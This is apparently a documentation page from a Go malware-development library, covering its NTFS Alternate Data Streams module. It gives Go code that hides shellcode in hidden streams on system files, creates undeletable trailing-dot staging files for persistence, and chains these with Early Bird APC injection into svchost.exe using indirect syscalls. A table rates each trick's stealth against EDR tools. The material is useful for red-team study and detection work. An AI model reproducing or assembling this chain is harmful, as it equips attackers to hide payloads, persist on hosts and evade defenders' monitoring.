

---
---

# NTFS Alternate Data Streams

> **MITRE ATT&CK:** T1564.004 -- Hide Artifacts: NTFS File Attributes | **Detection:** Medium

[<- Back to Collection Overview](README.md)

**Package:** `cleanup/ads`
**Platform:** Windows (NTFS required)

---

## Primer

Imagine a filing cabinet where every folder has a visible main pocket, but also a row of thin hidden pockets along the back that most people don't know exist. You can stuff papers into those hidden pockets and they won't appear when someone looks inside the folder normally — only someone who specifically searches for the hidden pockets will find them.

NTFS Alternate Data Streams work exactly like that. Every file on an NTFS volume has a default data stream (the file content you see when you open it). But the filesystem also allows any number of *named* streams on the same file path. Writing `document.txt:secret` stores data alongside `document.txt` without affecting its visible size, content, or timestamp. Windows Explorer, `dir`, and most file browsers only show the default stream — the hidden streams are invisible unless you use `streams.exe`, PowerShell's `Get-Item -Stream *`, or an EDR that actively enumerates them.

This makes ADS useful for stashing payloads on legitimate-looking files, persisting data across reboots without dropping new files, and the `cleanup/selfdelete` package already uses an ADS rename internally to delete the running binary.

## How It Works



**Step-by-step:**

1. **Write** -- `os.WriteFile` with path `file:streamName` creates or overwrites the named stream. The default file content and metadata are unaffected.
2. **List** -- `FindFirstStreamW` / `FindNextStreamW` enumerate all streams. The `List()` helper strips the default `::$DATA` stream and returns only user-created ones.
3. **Read** -- `os.ReadFile` with the `file:streamName` syntax reads the hidden stream content directly.
4. **Delete** -- `os.Remove` on `file:streamName` deletes only that stream; the host file is preserved.
5. **Undeletable files** -- The `\\?\` prefix bypasses Win32 name normalization, allowing filenames ending with dots (`...`) that Explorer and `cmd.exe` cannot navigate to or delete. Only `\\?\`-prefixed paths or `NtCreateFile` can access them.

## Usage

```go
package main

import (
    "fmt"
    "log"

    "github.com/oioio-space/maldev/cleanup/ads"
)

func main() {
    host := `C:\Users\Public\desktop.ini`
    payload := []byte{0x90, 0x90, 0xCC} // shellcode placeholder

    // Store shellcode in a hidden stream.
    if err := ads.Write(host, "payload", payload); err != nil {
        log.Fatal(err)
    }

    // Enumerate all hidden streams.
    streams, err := ads.List(host)
    if err != nil {
        log.Fatal(err)
    }
    for _, s := range streams {
        fmt.Printf("stream: %s (%d bytes)\n", s.Name, s.Size)
    }

    // Read it back.
    data, err := ads.Read(host, "payload")
    if err != nil {
        log.Fatal(err)
    }
    fmt.Printf("read %d bytes\n", len(data))

    // Clean up.
    if err := ads.Delete(host, "payload"); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"
    "os"

    "github.com/oioio-space/maldev/cleanup/ads"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/inject"
)

func main() {
    // 1. Retrieve XOR-encoded shellcode from an ADS on a benign system file.
    //    The host file is untouched; only the hidden stream carries the payload.
    encoded, err := ads.Read(`C:\Windows\System32\licensemanager.exe`, "cfg")
    if err != nil {
        log.Fatal(err)
    }

    shellcode, err := crypto.XORWithRepeatingKey(encoded, []byte("k3y"))
    if err != nil {
        log.Fatal(err)
    }

    // 2. Create an undeletable staging file for persistence.
    //    Trailing-dot names cannot be accessed or removed via Explorer / cmd.
    stagingDir := os.TempDir()
    _, err = ads.CreateUndeletable(stagingDir, shellcode)
    if err != nil {
        log.Fatal(err)
    }

    // 3. Inject via Early Bird APC.
    injector, err := inject.Build().
        Method(inject.MethodEarlyBirdAPC).
        ProcessPath(`C:\Windows\System32\svchost.exe`).
        IndirectSyscalls().
        Create()
    if err != nil {
        log.Fatal(err)
    }
    if err := injector.Inject(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Cleanup — Deleting Undeletable Files

```go
ads.DeleteUndeletable(path)
```

Since these files use trailing-dot filenames that bypass Win32 normalization,
only the `\\?\` prefix (used internally by DeleteUndeletable) or NT-level
deletion can remove them.

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | Medium -- streams are invisible to Explorer and `dir`. Detected by Sysinternals Streams, PowerShell `Get-Item -Stream *`, and EDRs that call `FindFirstStreamW`. |
| Compatibility | Good -- ADS requires NTFS; FAT32/exFAT volumes silently drop streams. Works on files and directories. |
| Reliability | High -- stream I/O uses standard `os.ReadFile` / `os.WriteFile`; no custom syscalls needed. |
| Undeletable files | The `\\?\` + trailing-dot trick survives reboots and cannot be removed via Explorer, `cmd.exe`, or `del`. Requires elevated `NtDeleteFile` or a raw NT path to clean up. |
| Limitations | Host file must already exist on an NTFS volume. ADS size counts against the volume quota. Streams are lost when the file is copied to a non-NTFS destination (e.g., FAT32 USB drive, email attachment). |
| Detection bypass | Zone.Identifier (the browser download ADS) is well-known; custom stream names are less scrutinised but uncommon stream names can stand out in EDR telemetry. |

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/cleanup/ads`](https://pkg.go.dev/github.com/oioio-space/maldev/cleanup/ads) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## See also

- [Collection area README](README.md)
- [`cleanup/ads`](../cleanup/ads.md) — sister NTFS Alternate Data Stream primitives (CRUD-only, used during scrub)
- [`evasion/stealthopen`](../evasion/stealthopen.md) — read ADS payloads via NTFS Object ID, bypassing path-based EDR file hooks
